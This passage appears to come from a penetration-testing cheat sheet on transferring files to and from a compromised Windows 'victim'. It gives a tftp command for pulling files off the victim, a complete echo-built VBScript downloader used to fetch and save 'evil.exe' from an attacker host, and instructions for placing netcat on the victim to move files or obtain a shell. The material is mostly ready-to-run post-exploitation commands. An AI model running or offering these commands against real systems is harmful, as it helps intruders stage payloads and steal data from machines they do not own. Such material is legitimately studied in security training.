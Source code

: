 Download files from the victim:

```text
tftp -i 192.168.0.1 GET winpeas.txt
```

### VBScript <a id="vbscript"></a>

Here is a good script to make a wget-clone in VB.

If it doesn't work try piping it through unix2dos before copying it.

```text
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http,varByteArray,strData,strBuffer,lngCounter,fs,ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET",strURL,False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile,True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1,1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

You then execute the script like this:

```text
cscript wget.vbs http://192.168.10.5/evil.exe evil.exe
```

### NC.exe

You can download a standalone compiled version of NC \(Netcat\) for windows from the nmap project \([https://svn.nmap.org/nmap/ncat/](https://svn.nmap.org/nmap/ncat/)\), or use the kali compiled version, located in:

`/usr/share/windows-binaries/nc.exe`

If you're able to move the ncat to the victim you can use the normal nc functions to transfer more files \(or gain a shell..\)
